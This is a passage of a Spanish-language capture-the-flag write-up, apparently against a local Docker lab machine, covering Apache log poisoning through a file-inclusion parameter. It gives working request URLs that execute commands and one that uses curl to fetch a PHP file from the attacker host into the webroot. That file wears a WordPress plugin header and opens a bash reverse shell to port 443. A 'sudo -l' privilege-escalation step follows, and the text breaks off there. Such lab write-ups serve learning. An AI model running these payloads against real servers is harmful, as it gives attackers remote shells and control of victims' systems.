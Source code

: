 Apuntamos de nuevo al log:

```bash
view-source:http://g00dj0b.reverse.dl/experiments.php?module=/var/log/apache2/access.log&cmd=id
```

Vemos que podemos ver el resultado del comando.

Lo que podemos es ponernos en escucha por un puerto y mandarnos una reverse shell, pero por alguna razón no funciona.

Vamos a mandar un script php al directorio /var/www/subdominio. Y al entrar a verlo nos otorgara una reverse shell:

```

http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log&cmd=curl 172.17.0.1:8000/wp.php -o /var/www/subdominio/wp.php

```

```php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


        exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

YA ESTAMOS COMO WWW-DATA.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
┌──[www-data@79f4564391f7]─[/var/www/subdominio]
└──╼ $ sudo -l
Matching Defaults entries for www-data on 79f4564391f7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on 79f4564391f7:
    (nova : nova) NOPASSWD: /opt/password_nova

```
